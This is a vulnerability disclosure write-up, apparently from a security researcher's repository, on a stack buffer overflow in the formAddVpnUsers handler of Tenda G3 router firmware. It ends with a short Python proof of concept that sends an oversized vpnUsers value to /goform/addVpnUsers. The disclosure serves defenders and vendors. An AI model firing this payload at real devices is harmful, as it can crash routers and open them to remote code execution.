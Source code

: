 # Tenda G3 formAddVpnUsers
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formAddVpnUsers function.
### Vulnerability details
Stack-based buffer overflow in function formAddVpnUsers on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formAddVpnUsers line 19, it reads in a user-provided parameter, and the variable vpnUsers is passed to the strncpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formAddVpnUsers-1.png)
![](images/formAddVpnUsers-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/addVpnUsers'
payload = {
    "vpnUsers": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```

